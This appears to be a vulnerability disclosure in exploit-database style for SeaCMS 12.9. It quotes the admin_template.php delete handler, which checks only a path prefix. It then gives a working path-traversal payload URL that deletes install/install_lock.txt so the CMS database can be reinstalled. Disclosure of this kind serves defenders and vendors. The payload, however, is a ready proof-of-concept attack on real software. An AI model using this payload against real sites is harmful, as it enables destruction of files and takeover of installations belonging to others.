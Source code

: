 # Seacms admin_template.php has any file deletion
- **Exploit Title:** Seacms admin_template.php has any file deletion
- **Date:** 2024-04-01
- **Exploit Author:** shuo sheng,jixin zhang
- **Vendor Homepage:** https://www.seacms.net/
- **Software Link:** [https://github.com/seacms-net/CMS](https://github.com/seacms-net/CMS/blob/master/%E6%B5%B7%E6%B4%8BCMS%E5%AE%89%E8%A3%85%E5%8C%85_SeaCMS_12.9.zip)
- **Version:** Seacms 12.9
The code vulnerability is located on line 114 of admin_template.php and does not verify the suffix of deleted files, resulting in the deletion of arbitrary files

```php
elseif($action=='del')
{
	if($filedir == '')
	{
		ShowMsg('未指定要删除的文件或文件名不合法', '-1');
		exit();
	}
	if(substr(strtolower($filedir),0,11)!=$dirTemplate){
		ShowMsg("只允许删除templets目录内的文件！","admin_template.php");
		exit;
	}
	$folder=substr($filedir,0,strrpos($filedir,'/'));
	if(!is_dir($folder)){
		ShowMsg("目录不存在！","admin_template.php");
		exit;
	}
	unlink($filedir);
	ShowMsg("操作成功！","admin_template.php?path=".$folder);
	exit;
}
```

Vulnerability recurrence

payload

```
http://127.0.0.1/seacms/sdfhk/admin_template.php?action=del&filedir=../templets/1.html/../../install/install_lock.txt
```
![图片](https://github.com/ss122-0ss/seacms/assets/131983607/b65493d2-da37-413f-9392-359e3e0f56d4)


![图片](https://github.com/ss122-0ss/seacms/assets/131983607/69192388-510f-4a6a-80c4-9c94771f31ed)

Looking at the file, you can see that install_lock.txt has been deleted, and the installation file has been deleted so that the database can be re-installed.
![图片](https://github.com/ss122-0ss/seacms/assets/131983607/d5b64799-5cb8-447d-9503-24e44b7b95e8)


